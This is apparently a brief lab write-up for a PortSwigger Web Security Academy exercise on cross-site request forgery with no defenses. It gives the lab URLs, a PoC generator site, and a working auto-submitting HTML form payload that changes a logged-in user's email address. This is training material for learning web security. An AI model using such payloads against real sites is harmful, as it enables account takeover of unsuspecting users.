




# Lab: CSRF vulnerability with no defenses

URL: https://0aee00bd04ba7c05834db57f00b60005.web-security-academy.net/



URL: https://0aee00bd04ba7c05834db57f00b60005.web-security-academy.net/post?postId=5



<br>

# Exploitation:


Used this site:

```
https://security.love/CSRF-PoC-Genorator/
```

Payload:

```
<html><form enctype="application/x-www-form-urlencoded" method="POST" action="https://0a38001903fd0f4780dc1cee00c50021.web-security-academy.net/my-account/change-email"><table><input type="text" value="test@thehub.com" name="email"><script>document.forms[0].submit();</script></table></form></html>
```



